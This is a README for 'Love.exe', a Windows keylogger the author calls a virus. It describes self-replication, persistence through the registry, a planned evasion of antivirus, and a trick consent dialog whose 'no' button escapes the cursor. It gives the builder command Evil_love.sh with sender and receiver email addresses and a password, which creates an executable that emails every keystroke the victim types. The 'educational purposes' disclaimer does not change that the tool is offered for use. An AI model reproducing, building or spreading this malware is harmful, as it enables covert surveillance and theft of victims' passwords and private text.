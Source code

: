 
# Love.exe

-  !! I am not responsible for the misuse of Love.exe, I did it for educational purposes ¡¡

<p align="center">
<img src="/Imagenes/icon.png"
	alt="Evil"
	width="200"
	style="float: left; margin-right: 10px;" />
</p>

- Love is a keylogger virus that self-replicates in the system and implants itself in the registry to resume its operation when the computer is turned on. The idea in the future is to become invisible to the Windows antivirus. Thanks to Evil_love.sh we can configure this file of raw love and prepare it to be sent.

	![[Pasted image /imagenes/20231119200113.png]]

- so...

		./Evil_love.sh emitter_example@gmail.com receiver_example@gmail.com passwordexampple$

	![[Pasted image imagenes/20231119195552.png]]

- The result here is that the .exe file was created ready to be sent, when the keylogger is working you will receive a text file with all the victim's keystrokes in the email that you set as the recipient, something similar to this:

	![[Pasted image imagenes/20231119212058.png]]

- When you start Love.exe for the first time, the following window appears whose "no" button is impossible to press since it escapes the cursor. When you press "yes" the keylogger starts, this window is only shown the first time the virus starts , after that it is not shown again:

	![[Pasted image imagenes/20231119212545.png]]

